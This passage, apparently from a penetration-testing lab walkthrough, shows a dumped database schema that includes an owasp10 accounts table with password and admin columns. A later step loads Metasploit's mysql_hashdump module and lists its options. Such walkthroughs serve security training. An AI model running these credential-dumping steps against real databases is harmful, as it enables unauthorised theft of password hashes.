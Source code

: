 ```
      ColumnType: varchar(15)
    - ColumnName: user
      ColumnType: varchar(15)
    - ColumnName: password
      ColumnType: varchar(32)
    - ColumnName: avatar
      ColumnType: varchar(70)
- DBName: metasploit
  Tables: []
- DBName: owasp10
  Tables:
  - TableName: accounts
    Columns:
    - ColumnName: cid
      ColumnType: int(11)
    - ColumnName: username
      ColumnType: text
    - ColumnName: password
      ColumnType: text
    - ColumnName: mysignature
      ColumnType: text
    - ColumnName: is_admin
      ColumnType: varchar(5)
  - TableName: blogs_table
    Columns:
    - ColumnName: cid
      ColumnType: int(11)
    - ColumnName: blogger_name
      ColumnType: text
    - ColumnName: comment
      ColumnType: text
    - ColumnName: date
      ColumnType: datetime
  - TableName: captured_data
```

### 9. Get MySQL password hashes

Try to obtain additional password hashes on the database.

`use auxiliary/scanner/mysql/mysql_hashdump`

`options`

```
Module options (auxiliary/scanner/mysql/mysql_hashdump):                                                                                                                 
                                                                                                                                                                         
   Name      Current Setting  Required  Description                                                                                                                      
   ----      ---------------  --------  -----------                                                                                                                      
   PASSWORD                   no        The password for the specified username                                                                                          
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html                           
   RPORT     3306             yes       The target port (TCP)                                                                                                            
   THREADS   1                yes       The number of concurrent threads (max one per host)                                                                              
   USERNAME                   no        The username to authenticate as
```
